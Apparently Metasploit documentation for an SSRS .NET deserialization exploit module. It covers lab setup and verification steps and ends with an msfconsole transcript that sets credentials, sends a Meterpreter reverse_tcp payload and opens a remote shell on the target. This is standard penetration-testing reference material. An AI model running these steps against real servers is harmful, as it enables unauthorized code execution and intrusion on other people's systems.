 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the SQL Server
Reporting Services web application. The vulnerability exists within the a class
that will load serialized data submitted in a POST request. When processed this
data can lead to code execution within the context of the application which by
default is a service account.

An account is necessary in order to leverage this vulnerability. The request is
submitted using NTLM basic authentication. This account must be assigned at
least the "Browser" role on the site. This is the lowest privilege available and
simply allows the user to view folders, reports and subscribe to reports. To
authenticate as a domain user, set the `DOMAIN` option.

### Service Installation And Setup

Setting up a vulnerable environment for testing is best done by using a SQL
Server 2016 installation ISO which includes an offline installer for SSRS. Later
versions of SQL Server installation ISOs link to an online installer which will
install the patched version automatically.

When installing SQL Server 2016:

  1. Select "New SQL Server stand-alone installation or add features to an
    existing installation"
  1. Later in the "Feature Selection" section, select "Reporting Services -
    Native" under the "Instance Features" group
  1. Proceed with the remainder of the installation per usual

After the server has been installed, it must be configured using the "Reporting
Services Configuration Manager" application. Ensure a database is selected and
created, that both the Web Services URL and Web Portal URLs are activated.
Finally, from the web interface, add accounts and privileges as desired.
Individual accounts can have privileges added by selecting "Manage Folder" and
adding them from this dashboard. **Do not use privileges dashboard available
from "Site Settings" to add the necessary privileges.**

## Verification Steps
  Example steps in this format (is also in the PR):

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/ssrs_navcorrector_viewstate`
  1. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  4. Do: `run`
  5. You should get a shell.

### Version and OS

  For example:

    msf5 > use exploit/windows/http/ssrs_navcorrector_viewstate 
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set RHOSTS 192.168.159.141
    RHOSTS => 192.168.159.141
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set USERNAME jdoe
    USERNAME => jdoe
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set DOMAIN msflab.local
    DOMAIN => msflab.local
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set PASSWORD Password1
    PASSWORD => Password1
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    PAYLOAD => windows/x64/meterpreter/reverse_tcp
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > set LHOST 192.168.159.128 
    LHOST => 192.168.159.128
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > check
    [*] 192.168.159.141:80 - The service is running, but could not be validated.
    msf5 exploit(windows/http/ssrs_navcorrector_viewstate) > exploit
    
    [*] Started reverse TCP handler on 192.168.159.128:4444 
    [*] Command Stager progress -  24.99% done (2999/12002 bytes)
    [*] Command Stager progress -  49.98% done (5998/12002 bytes)
    [*] Command Stager progress -  74.96% done (8997/12002 bytes)
    [*] Sending stage (206403 bytes) to 192.168.159.141
    [*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.141:50376) at 2020-03-06 16:19:24 -0500
    [*] Command Stager progress -  99.83% done (11982/12002 bytes)
    [*] Command Stager progress - 100.00% done (12002/12002 bytes)
    
    meterpreter > getuid
    Server username: NT Service\ReportServer
    meterpreter > sysinfo
    Computer        : SERVER2012
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : MSFLAB
    Logged On Users : 10
    Meterpreter     : x64/windows
    meterpreter >
